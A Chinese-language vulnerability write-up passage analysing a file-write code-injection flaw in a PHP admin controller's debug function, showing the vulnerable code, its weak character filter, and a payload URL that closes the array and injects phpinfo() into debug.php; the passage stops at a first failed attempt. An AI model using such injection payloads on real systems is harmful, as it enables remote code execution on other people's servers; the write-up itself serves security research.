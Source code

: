 # 0x04 漏洞点分析
1、具体我发现这个漏洞是在/app/admin/controller/api.php文件下的debug函数
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627972756885-5eac5c3d-6c8e-46ff-9a13-4914400c87c7.png#align=left&display=inline&height=331&margin=%5Bobject%2Object%5D&name=image.png&originHeight=662&originWidth=1360&size=59767&status=done&style=none&width=680)
```php
public function debug()
    {
        $path = 'app/extra/debug.php';
        $file = include $path; 
        $config = array(
         'name' => input('id'),
        );
        $config = preg_replace("/[?><?]/", '', $config);
        $res = array_merge($file, $config);
        $str = '<?php return [';
        foreach ($res as $key => $value) {
            $str .= '\'' . $key . '\'' . '=>' . '\'' . $value . '\'' . ',';
        }
        $str .= ']; ';
        if (file_put_contents($path, $str)) {
            return json(array('code' => 1, 'msg' => '操作成功'));
        } else {
            return json(array('code' => 0, 'msg' => '操作失败'));
        }
    }
```
在代码第15行通过file_put_contents()函数将id传参的内容写入到app/extra/debug.php文件中。
2、可以看到上面进行了一些过滤，将<>和?替换为空
```php
$config = preg_replace("/[?><?]/", '', $config);
```
3、这里直接将不太清晰，实战演示一下，首先访问后台路径，这里有个debug功能，就是上面debug函数的功能点。
[http://127.0.0.1/index.php/admin/](http://127.0.0.1/index.php/admin/)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627973358124-c7069db1-627c-4b05-8d15-255493426fee.png#align=left&display=inline&height=378&margin=%5Bobject%2Object%5D&name=image.png&originHeight=756&originWidth=2250&size=114711&status=done&style=none&width=1125)
4、具体使用时发现报错了，那就直接访问对应的函数，路由规则就是/index.php/目录-文件-函数.html?传参=。
这里我传参123进行测试
[http://127.0.0.1/index.php/admin-api-debug.html?id=123](http://127.0.0.1/index.php/admin-api-debug.html?id=123)
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627973462857-ae631d20-59ff-4a98-bb1d-6702c09d8311.png#align=left&display=inline&height=227&margin=%5Bobject%2Object%5D&name=image.png&originHeight=454&originWidth=1120&size=27749&status=done&style=none&width=560)
5、在debug.php文件中可以看到123是放到数组中的值处，而我们可以控制这里的值。
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627973579521-fd2d20ba-4b8c-46b5-9edf-654fb073cfed.png#align=left&display=inline&height=97&margin=%5Bobject%2Object%5D&name=image.png&originHeight=194&originWidth=810&size=11511&status=done&style=none&width=405)
```php
<?php return ['name'=>'123',]; 
```
6、下面讲解我进行绕过的思路以及遇到的坑。
# 0x05 绕过思路
## 第一次踩坑
1、首先，这里因为没有过滤单引号和中括号，所以我们可以手动闭合
```php
payload:
http://127.0.0.1/index.php/admin-api-debug.html?id=123%27];phpinfo();//
```
这里可以看到数据是成功写入进文件中的
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627973910607-7d1ffe2f-30b8-406c-9ec6-a7f233aa1838.png#align=left&display=inline&height=131&margin=%5Bobject%2Object%5D&name=image.png&originHeight=262&originWidth=1138&size=17735&status=done&style=none&width=569)
```php
<?php return ['name'=>'123'];phpinfo();//',]; 
```
2、访问debug.php文件试试发现，页面并没有返回想要的内容
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627973998766-06dfe807-2a84-4b08-9d12-f6f666c5d553.png#align=left&display=inline&height=363&margin=%5Bobject%2Object%5D&name=image.png&originHeight=726&originWidth=1882&size=36793&status=done&style=none&width=941)
